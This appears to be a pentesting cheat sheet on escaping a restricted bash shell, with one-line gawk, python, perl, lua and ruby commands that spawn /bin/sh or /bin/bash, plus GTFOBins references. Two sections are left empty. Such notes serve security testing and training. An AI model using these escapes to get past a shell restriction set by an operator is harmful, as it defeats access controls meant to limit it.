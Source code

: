 # Code Execution

When you're in a restricted shell.

```
$ echo $0
rbash
```

## 01 - Shell Scripting

### 1.1 - `bash`

```

```

### 1.2 - `dash`

```

```

### 1.3 - `gawk`

```
$ gawk 'BEGIN {system("/bin/sh")}'

$ gawk 'BEGIN {system("/bin/bash")}'
```

## 02 - Interpreters

### 2.1 - `python`

```
$ python3 -c 'import os; os.system("/bin/sh")'

$ python3 -c 'import os; os.system("/bin/bash")'

$ python -c 'import os; os.system("/bin/sh")'

$ python -c 'import os; os.system("/bin/bash")'
```

### 2.2 - `perl`

```
perl -e 'exec "/bin/sh";'

perl -e 'exec "/bin/bash";'
```

### 2.3 - `lua`

```
os.execute('/bin/sh')
```

### 2.4 - `ruby`

Executing it as a one-liner.

```
$ ruby -e "exec '/bin/sh'"

$ ruby -e "exec '/bin/bash'"
```

Using interactive ruby.

```
$ irb
irb(main):001:0> exec "/bin/sh"

irb(main):001:0> exec "/bin/bash"
```

---
## References

### GTFOBins

- [GTFOBins: Ash](https://gtfobins.github.io/gtfobins/ash/)

- [GTFOBins: Bash](https://gtfobins.github.io/gtfobins/bash/)

- [GTFOBins: Csh](https://gtfobins.github.io/gtfobins/csh/)

- [GTFOBins: Dash](https://gtfobins.github.io/gtfobins/dash/)

- [GTFOBins: Awk](https://gtfobins.github.io/gtfobins/awk/)

- [GTFOBins: Gawk](https://gtfobins.github.io/gtfobins/gawk/)